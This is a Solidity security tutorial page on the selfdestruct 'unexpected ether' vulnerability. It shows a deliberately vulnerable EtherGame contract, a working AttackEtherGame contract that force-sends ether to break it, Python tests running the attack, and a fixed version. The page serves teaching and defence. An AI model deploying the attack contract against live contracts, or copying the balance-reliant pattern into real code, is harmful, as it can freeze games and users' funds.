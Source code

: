 ```yaml
---
sidebar_position: 4
tags: [selfdestruct, solidity, attack]
---
```


# Self destruct

### Description

Although the blockchain is considered an immutable structure, Solidity language provides functionality that removes the smart contract state and code from the blockchain. This function is `selfdestruct`, and it could be used to remove the smart contract state and send all  Ether, stored at the address associated with the call, to a designated wallet or contract. This behavior presents the vulnerability, also called `unexpected ether`.

The following smart contract implementation presents the simple game using concurrency logic. Any user can deposit one ether to the contract until the `balance` reaches `5`. Whoever deposited the last ether amounted to the target value will be able to claim the reward. The issue is on line 11, where the requirement uses `address(this).balance` to check the contract balance:

```solidity title=/contracts/self_destruct/EtherGame.sol sourceUrl=https://github.com/kkateq/solidity-hacks/blob/main/contracts/self_destruct/EtherGame.sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.10;

contract EtherGame {
    uint256 public targetAmount = 5 ether;
    address public winner;

    function deposit() public payable {
        require(msg.value == 1 ether, "You can only send 1 Ether");

         // highlight-next-line
        uint256 balance = address(this).balance;
        require(balance <= targetAmount, "Game is over");

        if (balance == targetAmount) {
            winner = msg.sender;
        }
    }

    function claimReward() public {
        require(msg.sender == winner, "Not winner");

        (bool sent, ) = msg.sender.call{value: address(this).balance}("");
        require(sent, "Failed to send Ether");
    }

    function balanceOf() public view returns (uint256) {
        return address(this).balance;
    }
}
```

Here comes the `AttackEtherGame` smart contract that would attempt to stop the game by sending `unexpected ether` to the contract game using the `selfdestruct` function:

```solidity title=/contracts/self_destruct/AttackEtherGame.sol sourceUrl=https://github.com/kkateq/solidity-hacks/blob/main/contracts/self_destruct/AttackEtherGame.sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.10;

interface IEtherGame {}

contract AttackEtherGame {
    IEtherGame etherGame;

    constructor(address _etherGameAddress) {
        etherGame = IEtherGame(_etherGameAddress);
    }

    function attack() public payable {
        address payable addr = payable(address(etherGame));
        // highlight-next-line
        selfdestruct(addr);
    }

    function deposit() public payable {}

    function balanceOf() public view returns (uint256) {
        return address(this).balance;
    }
}

```

### How to test

Let's write a unit test that executes the EtherGame attack and verify the game is distorted:

```python sourceUrl=https://github.com/kkateq/solidity-hacks/blob/main/tests/self_destruct/test_self_destruct.py title=/tests/self_destruct/test_self_destruct.py
import pytest
from brownie import exceptions
from scripts.self_destruct.deploy_and_attack import (
    deploy_attack_ether_game,
    deploy_ether_game,
    deploy_ether_game_fixed,
)
from scripts.utils import get_attacker_account, get_default_account, get_user_account
from web3 import Web3

def test_ether_game_successful_attack():
    # 1. Deploy EtherGame contract
    ether_game = deploy_ether_game()
    # 2. Play the game
    ether_game_deposit_tx = ether_game.deposit(
        {"from": get_user_account(), "value": Web3.toWei(1, "ether")},
    )
    ether_game_deposit_tx.wait(1)
    # 3. Deploy AttackEtherGame contract
    attack_ether_game = deploy_attack_ether_game(ether_game.address)
    # 4. Deposit some funds to the AttackEtherGame contract, so that they could be sent to the EtherGame
    tx = attack_ether_game.deposit(
        {"from": get_attacker_account(), "value": Web3.toWei(5, "ether")}
    )
    tx.wait(1)

    assert ether_game.balanceOf() / 10**18 == 1

    # 5. Call `attack` function on the AttackEtherGame contract to break the EtherGame balance
    attack_tx = attack_ether_game.attack(
        {"from": get_attacker_account()},
    )
    attack_tx.wait(1)

    assert ether_game.balanceOf() / 10**18 == 6

    # 6. EtherGame is no longer accepts deposits
    with pytest.raises(exceptions.VirtualMachineError):
        ether_game_deposit_tx2 = ether_game.deposit(
            {"from": get_user_account(), "value": Web3.toWei(1, "ether")},
        )
        ether_game_deposit_tx2.wait(1)

```

### How to fix

To fix this issue, it is recommended to avoid reliance on the `this.balance` value within the smart contract logic or guards. Instead, you should use a separate variable `balance` to account for the actual balance every time users call the `deposit` function. Consider the following fix L12-13:

```solidity title=/contracts/self_destruct/EtherGameFixed.sol sourceUrl=https://github.com/kkateq/solidity-hacks/blob/main/contracts/self_destruct/EtherGameFixed.sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.10;

contract EtherGameFixed {
    uint256 public targetAmount = 5 ether;
    address public winner;
    uint256 public balance;

    function deposit() public payable {
        require(msg.value == 1 ether, "You can only send 1 Ether");

        // highlight-next-line
        balance += msg.value;
        // highlight-next-line
        require(balance <= targetAmount, "Game is over");

        if (balance == targetAmount) {
            winner = msg.sender;
        }
    }

    function claimReward() public {
        require(msg.sender == winner, "Not winner");

        (bool sent, ) = msg.sender.call{value: address(this).balance}("");
        require(sent, "Failed to send Ether");
    }

    function balanceOf() public view returns (uint256) {
        return balance;
    }
}

```

### Demo

The following unit test demonstrates that `EtherGameFixed` smart contract is no longer breakable:

```python sourceUrl=https://github.com/kkateq/solidity-hacks/blob/main/tests/self_destruct/test_self_destruct.py title=/tests/self_destruct/test_self_destruct.py
...

def test_ether_game_fixed_failed_attack():
    # 1. Deploy EtherGameFixed contract
    ether_game_fixed = deploy_ether_game_fixed()
    # 2. Play the game
    ether_game_deposit_tx = ether_game_fixed.deposit(
        {"from": get_user_account(), "value": Web3.toWei(1, "ether")},
    )
    ether_game_deposit_tx.wait(1)
    # 3. Deploy AttackEtherGame contract
    attack_ether_game = deploy_attack_ether_game(ether_game_fixed.address)
    # 4. Deposit some funds to the AttackEtherGame contract, so that they could be sent to the EtherGame
    tx = attack_ether_game.deposit(
        {"from": get_attacker_account(), "value": Web3.toWei(5, "ether")}
    )
    tx.wait(1)
    # 5. Call `attack` function on the AttackEtherGame contract to destort the EtherGame balance
    attack_tx = attack_ether_game.attack(
        {"from": get_attacker_account()},
    )
    attack_tx.wait(1)

    assert ether_game_fixed.balanceOf() / 10**18 == 1

    ether_game_deposit_tx2 = ether_game_fixed.deposit(
        {"from": get_user_account(), "value": Web3.toWei(1, "ether")},
    )
    ether_game_deposit_tx2.wait(1)

    assert ether_game_fixed.balanceOf() / 10**18 == 2

```

**Thank you for reading and good luck with building secure blockchain!**